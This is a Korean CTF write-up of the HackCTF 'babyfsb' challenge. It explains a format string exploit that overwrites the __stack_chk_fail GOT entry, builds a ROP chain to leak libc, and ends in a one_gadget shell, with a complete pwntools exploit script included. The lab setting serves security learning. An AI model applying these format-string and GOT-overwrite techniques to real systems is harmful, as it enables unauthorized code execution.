```yaml
---
layout: post
title:  "HacCTF babyfsb write-up"
date:   2020-03-20 19:45:55
image:  hackctf_babyfsb.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] babyfsb

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled.png)

PIE는 걸려있지 않지만 이번에는 카나리가 걸려있다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%201.png)

hello 라는 문자열이 출력되고 입력할수 있는 공간이 나온다. 그 뒤 입력한 문자열이 출력되고 바로 종료가 된다.



**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/(HackCTF%20babyfsb/Untitled%202.png)

read로 0x40 만큼 입력을 받는다. ret 을 덮을 수 없는 사이즈이다.

10라인에서 printf 를 이용해 fsb가 가능할 것으로 보인다.





### 2. 접근방법

---

일반적으로 fsb를 이용하면 " % $ n 등등.." 이러한 서식문자를 이용하여 특정함수의 got를 덮고, 원하는 got_overwrite를 이용하여 원하는 동작을 일으키는 식으로 문제를 풀었었다.

64bit 환경이기 때문에 %p 5개를 입력하고 그다음 서식문자부터 rsp의 값들을 leak할수 있다. 한번 상황을 봐보자.

 

- printf (" %p %p %p %p %p %p %p %p")

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%203.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%204.png)

0x7fffffffdcc0 이 현재 ret주소를 담고있는 주소이다. 여기 ret주소를 가리키고 있는 부분이 없기 때문에 곧바로 ret 값을 변경할 수 없다. 또한 만약 어찌해서 특정 함수의 got를 덮었다고 해도 printf 함수다음 return 0 이 나오기 때문에 해당 함수를 실행시킬수 없다.

하지만 !! 문제를 잘 보면 현재 카나리가 걸려있다. 따라서 카나리를 체크하는 함수가 어셈블리로 보면 확인가능하다.

    	 0x0000000000400711 <+107>:	mov    rcx,QWORD PTR [rbp-0x8]
       0x0000000000400715 <+111>:	xor    rcx,QWORD PTR fs:0x28
       0x000000000040071e <+120>:	je     0x400725 <main+127>
       0x0000000000400720 <+122>:	call   0x400550 <__stack_chk_fail@plt>
       0x0000000000400725 <+127>:	leave  
       0x0000000000400726 <+128>:	ret

카나리 값은 rbp-0x8에 위치해 있는데, 이는 read함수로  덮을수 있다. 해당 값이 변조되면 stack_chk_fail 함수가 호출된다. 따라서 해당 함수의 got를 덮으면 된다 !



- **libc 주소 leak 시나리오**
    1. stack_chk_fail 함수의 got를 " pop rdi; ret " 가젯 주소로 덮는다.
    2. 일부로 카나리를 변조하여 해당 함수가 실행되게끔 한다.
    3. stack_chk_fail 함수가 실행되면 현재 got에 pop rdi; ret 주소로 덮혀져 있기 때문에 가젯 주소로 간다
    4. puts의 주소를 leak해야하기위해 rdi에 puts_got를 넣고 puts_plt를 넣는다.
    5. payload = %(pop rdi;ret 주소 10진수값)c %8 $ln +"AA" // align을 위해 AA두개를 넣음

        payload += stack_chk_fail_got 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%205.png)

    위 상황은 현재 위 시나리오의 페이로드를 보내고나서, stack_chk_fail 함수가 호출된 상태이다.

    원하는대로 해당 함수의 got가 덮혀져 가젯 주소로 ret되었다. 근데, 여기서 stack을 보면 약간 이상하다. 원래대로라면 rdi에 put_got가 들어가야하는데, 현재 스택 최상단에 0x400725가 들어가있어 이 값이 rdi에 들어간다.

    원하는 값인 0x601018은 스택에서 5번째에 위치해 있는 것을 볼수 있다. 따라서 위 시나리오의 페이로드를 전송하면 에러가 난다. 우리는 pop rdi ; ret 가젯을 이용하기 전에 스택을 먼저 맞추기 위해 pop pop pop pop ret; 가젯을 먼저 호출해야한다.

    그래야 4번의 pop이 일어나고 우리가 넣은 값을 이용할 수 있다. 정리하면 ppppr 가젯으로 got를 덮고 그다음 pop rdi; ret를 넣은뒤 그 뒤에 put_got, put_plt를 넣어주면 된다.



    **페이로드 수정 !**

    - payload = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA"

        payload += stack_chk_fail_got 주소

        payload += pop rdi; ret 주소

        payload += puts_got 주소

        payload += puts_plt 주소

        payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

        payload += main 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%206.png)

    수정된 페이로드로 디버깅을 했을때 stack_chk_fail 함수가 실행되어 ppppr 주소로 돌아갔고, ret가 실행되면 pop rdi; ret 주소로 가는 것을 확인할 수 있다. 그 이후 0x601018을 rdi에 제대로 저장할 것이다.

    이렇게 하면 puts의 주소를 leak할 수 있고, 이를 이용하여 libc_base 주소를 구할 수 있다.

    그다음은 다시 main으로 돌아가서 stack_chk_fail got를 one gadget주소로 덮으면 끝이다





### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    #p=remote("ctf.j0n9hyun.xyz", 3032)
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p=process("./babyfsb",env=env)
    e=ELF("./babyfsb")
    libc=ELF("./libc.so.6")
    
    one_shot_off=0x45216
    
    gdb.attach(p)
    p.recvuntil("hello\n")
    pause()
    payload = "%4196236c%8$ln"+"AA"+p64(0x601020)+p64(0x400793)+p64(e.got['puts'])+p64(e.plt['puts'])
    payload += p64(0x4006A6) # main
    payload += "C"*(0x40-len(payload))
    p.send(payload)
    
    put_addr=u64(p.recvuntil("hello\n")[-13:-7]+"\x00\x00")
    libc_base=put_addr-libc.symbols['puts']
    log.info(hex(libc_base))
    log.info(hex(libc_base+one_shot_off))
    pause()
    payload2 = "%4196236c%8$ln"+"AA" + p64(0x601020)+p64(libc_base+one_shot_off)
    payload2 += "C"*(0x40-len(payload2))
    p.send(payload2) 
    p.interactive()





### 4. 몰랐던 개념

---

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20babyfsb/Untitled%207.png)

원샷 가젯을 실행시키면 위와 같이 4개의 one gadget offset 주소를 확인 할 수 있는데, 해당 문제에서는 맨 위의 오프셋만 정상적으로 동작하고 나머지 3개는 에러를 뿜는다.

나머지 3개가 에러를 뿜는 이유를 첨에는 몰랐는데 2번째 인자에 execve를 이용하여 쉘을 얻으려면 2,3번째 인자가 널이여야한다. 따라서 rsp+0x30, rsp+0x50, rsp+0x70 이 3개는 해당 one gadget이 호출되었을때 널이 아니여서 execve가 제대로 동작하지 않은 것이다.

첫번째 offset이 실행되기 위해서는 rax=NULL 이여야하는데 내부적으로 해당 조건이 만족되는것 같다